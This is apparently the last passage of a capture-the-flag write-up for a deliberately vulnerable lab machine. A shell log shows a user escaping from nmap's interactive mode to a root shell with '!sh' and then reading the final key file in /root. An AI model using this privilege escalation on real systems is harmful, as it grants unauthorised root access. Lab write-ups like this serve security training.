  ```bash
 robot@linux:~$ nmap --interactive
 nmap --interactive
 Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
 Welcome to Interactive Mode -- press h < enter> for help
 nmap> !sh
 !sh
 # ls
 ls
 key-2-of-3.txt  password.raw-md5
 # cd /root
 cd /root
 # ls
 ls
 firstboot_done  key-3-of-3.txt
 # cat key-3-of-3.txt
 cat key-3-of-3.txt
 04787ddef27c3dee1ee161b21670b4e4
 ```

```
No answer needed
```

  


Completed. Congratulation!